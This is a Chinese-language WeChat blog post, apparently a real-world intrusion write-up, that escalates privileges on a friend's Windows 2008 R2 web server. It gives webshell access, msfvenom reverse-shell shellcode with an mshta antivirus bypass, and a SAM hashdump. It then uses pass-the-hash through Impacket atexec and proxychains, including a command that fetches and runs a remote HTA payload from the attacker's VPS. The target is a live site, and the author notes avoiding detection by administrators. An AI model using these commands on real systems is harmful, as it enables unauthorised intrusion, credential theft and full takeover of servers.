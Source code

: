 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/Oe1ARbfpoPiognCGDQ4HeA)<table><tbody><tr><td width="557" valign="top" height="62"><section><strong>声明：</strong>该公众号大部分文章来自作者日常学习笔记，也有少部分文章是经过原作者授权和其他公众号白名单转载，未经授权，严禁转载，如需转载，联系开白。</section><section>请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者和本公众号无关。</section></td></tr></tbody></table>

**0x01 前言**

朋友发来一个站让帮看下提权，服务器上安装的有护卫神 + 火绒 + 安全狗等安全防护软件，看着确实挺唬人，他也试了不少常用提权 EXP，结果都失败了，可能是欠缺免杀 EXP 能力吧，当然也有可能是修复了这些漏洞，抽空给他看了下并写了这篇记录文章。  

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfaR9lbgfgNPl2PxoW5yibysSia2wB19Agxq0IsEEtbOaL8h2JroNV7VeuTSiaXDHia1jLopL6jUrHZoQ/640?wx_fmt=png)

在拿到权限后用中国菜刀连了下，不过好像被拦截了，提示：服务器返回无效或不可识别的响应，以前也多次遇到这种情况，这里只要换成 Godzilla 就能正常连接了。

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfaR9lbgfgNPl2PxoW5yibys6nEbQhQgEKpC1GCk0WCiaJ20d4icaFDzQ6ODzxdPm39vCrkib45icco7vw/640?wx_fmt=png)

**0x02 服务器基本信息搜集**

虽然朋友在测试后给提供了些信息，但还是习惯自己去看下，因为每个人掌握的知识点和实战经验不一样，只有自己看了后才知道安装了哪些环境、WAF/AV 和第三方软件，以及开放了哪些端口、打了多少补丁等，这样才能更好对其系统薄弱点进行测试。

```
目标系统：Windows 2008 R2 (6.1 Build 7601, Service Pack 1).
当前权限：iis apppool\*****.com
支持脚本：ASP、ASPX、PHP，能够直接执行系统命令
开放端口：21(ftp)、80(http)、135(rpc)、443(https)、445（smb）、801(http)、3306(mysql)、2121(G6FTP)、8021(G6FTP)、6588(hws)、58895(TermService)
进程名称：G6FTPServer.exe、G6FTPTray.exe、HwsHostPanel.exe、mysqld.exe、php-cgi.exe、SafeDogUpdateCenter.exe、CloudHelper.exe、SafeDogGuardCenter.exe、SafeDogTray.exe、SafeDogGuardHelper.exe、SafeDogGuardHelper.exe、HipsTray.exe、HipsDaemon.exe、usysdiag.exe
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfaR9lbgfgNPl2PxoW5yibysa0U0QAvkEPDOVVNiaqficnzS1QP9yM1TgoGibW7r99ZciarTOniavkzxIlA/640?wx_fmt=png)

服务器上运行的有：火绒、护卫神主机大师、服务器安全狗、MySQL 数据库和 G6FTP，可以尝试提权方式有：护卫神主机大师、MySQL 和 G6FTP，不过在提权过程中得注意下火绒和服务器安全狗的查杀和拦截，尽可能的避免被管理员发现。

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfaR9lbgfgNPl2PxoW5yibys7Udn5qQdLUNZB4YngYCuj8icUntqXYpM7u3lpQ6z0icVU1q34BgLQYmA/640?wx_fmt=png)

**0x03 绕过火绒获取 MSF 会话**

个人习惯在 MSF 下进行提权，首先我们先想办法获取一个会话，火绒默认会拦截 web_delivery 中的 powershell 执行和查杀 hta_server 的 hta 文件，所以这两种方式在这里是行不通的。  

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfaR9lbgfgNPl2PxoW5yibysF0KZBiaicHAavCTg1gpch2cKicPAAShC2FVDUzZlKia5ibM9diarpibwV9AtA/640?wx_fmt=png)

这里我们直接利用 mshta 白名单来获取 MSF 会话，首先执行以下命令生成 shellcode 并执行监听，然后将 exp.hta 文件中的 shellcode 替换为 MSF 的 shellcode 即可。

```
[root@p1600778655 ~]# msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp lhost=155.**.***.16 lport=443 -f raw > /tmp/shellcode.bin
[root@p1600778655 ~]# cat /tmp/shellcode.bin | base64 -w 0

msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 155.**.***.16
msf6 exploit(multi/handler) > set lport 443
msf6 exploit(multi/handler) > exploit
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfaR9lbgfgNPl2PxoW5yibysqDN6gv8YlYAQJrt5gqx8bGnvhIHwwA68E3pYQKrWGdjTwpPic27gCqg/640?wx_fmt=png)

接着我们在 VPS 上用 Python 开启一个临时 Web 用于远程调用，然后再去 ASPX 大马的执行命令功能处用系统自带的 mshta.exe 执行 exp.hta 这个文件后即可上线。

```
python -m SimpleHTTPServer 8888
python3 -m http.server 8888
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfaR9lbgfgNPl2PxoW5yibysKrvlce42v4OztFQSVCTgxzk6lydEYWxyibwsQL1dlncrHkj4tPURoxQ/640?wx_fmt=png)

**0x04 SAM 注册表项导出哈希**

朋友前期已经测试了很多提权 EXP，加上护卫神主机大师为高版本，MySQL 也被降权了，所以就不再去测试这些常规方法了，G6FTP 还是可以去试一下，不过我这用的是另一种非常规方法。  

直接利用[**《西部数码云主机失败提权案例》**](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247484801&idx=1&sn=0151f6a87a49ffa060514b32a4e62eb9&chksm=cfa6a192f8d128843c61ddb5a353cc6d0695dbc1aef8927b0d86541091bacf1d2ba1dd4e7f5a&scene=21#wechat_redirect)一文中提到的方法，原理也很简单，当 SAM 注册表项有 Users 或 Everyone 的读取权限时就能利用 MSF 下的 hashdump 模块导出哈希。

```
meterpreter > getuid
meterpreter > load powershell
meterpreter > powershell_shell
PS > Get-Acl -Path HKLM:\SAM\SAM | Format-List
meterpreter > run post/windows/gather/hashdump
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfaR9lbgfgNPl2PxoW5yibysG3g0ewk5WHU3jwKHX1bx1HHYiaCIk7VbDJyXw17lg8nsJjorSibThcLA/640?wx_fmt=png)

**0x05 atexec 提升 System 权限**

已经利用 SAM 注册表项权限问题导出了主机哈希，但依旧面临着一些问题，如：没有明文密码、破解不了哈希、添加不了用户等，如遇到这种场景时应该怎样进行下一步测试呢？

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfaR9lbgfgNPl2PxoW5yibysL4diaNEcgGMRznYgHuheyibFzFMuv95obFay4uesYckNNeGSIbIyAHyg/640?wx_fmt=png)

这时我们可以尝试使用支持 HASH 传递的远程命令执行工具来执行系统命令，这里以 Impacket 套件远程命令执行功能中的 atexec 来做演示，其他支持哈希传递的工具以及利用方式如下。

**135 端口：**

```
WMIcmd/sharpwmi/WMIHACKER/Sharp-WMIExec；
```

**Impacket：**

```
psexec(445)/wmiexec(135)/smbexec(445)/atexec(445)；
```

**利用方式：**  

```
Local本地执行 、Socks4/5代理 、Metasploit虚拟路由表；
```

这里我们先将当前 MSF 会话添加进虚拟路由，然后再用 socks_proxy 模块开启一个 socks5 代理，修改下 proxychains.conf 配置文件，最后用 proxychains 代理工具来执行 atexec 即可。

```
meterpreter > run get_local_subnets
meterpreter > run autoroute -s 59.***.***.0/255.255.255.0
meterpreter > bg

msf6 auxiliary(server/socks_proxy) > set username test
msf6 auxiliary(server/socks_proxy) > set password 123456
msf6 auxiliary(server/socks_proxy) > run
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfaR9lbgfgNPl2PxoW5yibysQBS5siagdj4pgslfLabZEib1bDPdaepAIibX6Atwrlr8ZwhvavpHSXjBQ/640?wx_fmt=png)

Kali 的 proxychains 配置默认在 / etc/proxychains.conf，而自行编译安装的 proxychains4 配置在根目录下 / src/proxychains.conf，如何修改就不细说了，配置文件里都有例子。

```
[root@p1600778655 src]# vi /srv/proxychains/src/proxychains.conf
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfaR9lbgfgNPl2PxoW5yibysxM4yODGwA92BslamZibWx7x9JnYMPiaCrgXBs2hX0YF5UwSPo29VYeiaw/640?wx_fmt=png)

利用 proxychains 代理工具执行 atexec 时可能会出现以下报错，且没有命令执行回显，但我们可以先用 Ping 9o**mf.dnslog.cn 命令看下是否执行成功，如果 DNSLog 收到数据则说明成功。

```
[root@p1600778655 ~]# proxychains4 -f /srv/proxychains/src/proxychains.conf python3 /srv/impacket/examples/atexec.py -hashes :ebdccc154cadcda7f5ef0a2149274f3c administrator@59.***.***.230 "cmd /c ping 9o**mf.dnslog.cn"
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfaR9lbgfgNPl2PxoW5yibys4BjsktxiaKCumHwueibDvGBMo4fAdvujxwpsj0QiaTgmM4vKPaTweZNTw/640?wx_fmt=png)

确定命令执行成功后，我们另起一个命令终端开启 MSF 监听，然后再用 proxychains 代理工具执行 atexec，这里再次执行前边用到的 exp.hta 文件后即可得到目标主机 SYSTEM。

```
[root@p1600778655 ~]# proxychains4 -f /srv/proxychains/src/proxychains.conf python3 /srv/impacket/examples/atexec.py -hashes :ebdccc154cadcda7f5ef0a2149274f3c administrator@59.***.***.230 "cmd /c mshta http://155.**.***.16:8888/exp.hta"
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfaR9lbgfgNPl2PxoW5yibysfurdHMWkSbP0W1S31xOuV8dRD7mrNp9PicxnE9yXS9BjxWQWxFzdxuw/640?wx_fmt=png)

**踩坑记录 - 1：**

如果没有将当前 MSF 会话添加至虚拟路由时，即使开了 Socks5 代理也不能用 proxychains 代理工具执行 atexec，会报出以下错误提示，因为 MSF 的 Socks 模块是在 VPS 上开启一个 Socks 代理，在没有添加虚拟路由前是不能与目标 445 端口进行通讯，除非是在目标主机上开启 Socks 代理，然后本地连接目标开启的 Socks 后才能与目标 445 端口进行通讯。

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfaR9lbgfgNPl2PxoW5yibysNQaTTBArN4NCUbVNRG6OprJNqCwZGTVonnVvdia4SNrwmbhKqyb7RNA/640?wx_fmt=png)

**踩坑记录 - 2：**

Socks 代理流量已经通了，但是在利用 proxychains 代理工具执行 atexec 时出现了以下报错，且没有命令执行回显，执行 whoami>1.txt 命令也写不了文件，当然这可能只是这个环境出现的个别案例，但我们可以通过 ping dnslog 命令来判断是否执行成功。

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOfaR9lbgfgNPl2PxoW5yibys1vYuyzaTGrqsTFKGrfKKuwL8oiaXTSt3JP2a5dD57jCtTaS6PuEnFlg/640?wx_fmt=png)

关注公众号回复 “9527” 可免费获取一套 HTB 靶场文档和视频，“1120” 安全参考等安全杂志 PDF 电子版，“1208” 个人常用高效爆破字典，“0221”2020 年酒仙桥文章打包，还在等什么？赶紧点击下方名片关注学习吧！

公众号

* * *

**推 荐 阅 读**

  

  

  

[![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLcAcRDPBsTMEQ0pGhzmYrBp7pvhtHnb0sJiaBzhHIILwpLtxYnPjqKmibA/640?wx_fmt=png)](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247487086&idx=1&sn=37fa19dd8ddad930c0d60c84e63f7892&chksm=cfa6aa7df8d1236bb49410e03a1678d69d43014893a597a6690a9a97af6eb06c93e860aa6836&scene=21#wechat_redirect)

[![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLcIJDWu9lMmvjKulJ1TxiavKVzyum8jfLVjSYI21rq57uueQafg0LSTCA/640?wx_fmt=png)](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247486961&idx=1&sn=d02db4cfe2bdf3027415c76d17375f50&chksm=cfa6a9e2f8d120f4c9e4d8f1a7cd50a1121253cb28cc3222595e268bd869effcbb09658221ec&scene=21#wechat_redirect)

[![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf8eyzKWPF5pVok5vsp74xolhlyLt6UPab7jQddW6ywSs7ibSeMAiae8TXWjHyej0rmzO5iaZCYicSgxg/640?wx_fmt=png)](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247486327&idx=1&sn=71fc57dc96c7e3b1806993ad0a12794a&chksm=cfa6af64f8d1267259efd56edab4ad3cd43331ec53d3e029311bae1da987b2319a3cb9c0970e&scene=21#wechat_redirect)

**欢 迎 私 下 骚 扰**

  

  

![](https://mmbiz.qpic.cn/mmbiz_jpg/XOPdGZ2MYOdSMdwH23ehXbQrbUlOvt6Y0G8fqI9wh7f3J29AHLwmxjIicpxcjiaF2icmzsFu0QYcteUg93sgeWGpA/640?wx_fmt=jpeg)